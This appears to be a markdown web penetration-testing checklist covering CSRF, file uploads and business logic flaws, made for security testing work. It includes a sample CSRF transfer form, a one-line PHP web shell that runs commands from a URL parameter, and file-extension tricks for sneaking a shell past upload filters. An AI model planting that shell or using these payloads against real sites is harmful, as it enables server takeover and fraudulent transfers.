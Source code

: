 #### CSRF Testing
- [ ] **Basic CSRF**
  ```html
  <form action="https://target.com/transfer" method="POST">
    <input type="hidden" name="amount" value="1000">
    <input type="hidden" name="to" value="attacker">
    <input type="submit" value="Click me">
  </form>
  ```

- [ ] **CSRF token bypass**
  - [ ] Remove CSRF token
  - [ ] Use empty CSRF token
  - [ ] Use another user's token
  - [ ] Change request method (POST to GET)

### 📁 File Upload Vulnerabilities

#### File Upload Testing
- [ ] **Malicious file uploads**
  ```php
  <?php system($_GET['cmd']); ?>
  ```

- [ ] **Extension bypasses**
  ```
  shell.php
  shell.php.jpg
  shell.php%00.jpg
  shell.php;.jpg
  ```

- [ ] **Content-Type bypasses**
  ```
  Content-Type: image/jpeg (with PHP code)
  Content-Type: text/plain (with script)
  ```

### 🔒 Business Logic Vulnerabilities

#### Race Conditions
- [ ] **Concurrent requests**
  - [ ] Multiple password reset requests
  - [ ] Simultaneous money transfers
  - [ ] Parallel coupon usage

#### Price Manipulation
- [ ] **Negative quantities**
  - [ ] Add -1 expensive item
  - [ ] Add 1 cheap item
  - [ ] Total becomes negative

#### Workflow Bypasses
- [ ] **Step skipping**
  - [ ] Skip payment step
  - [ ] Bypass verification steps
  - [ ] Direct access to final step
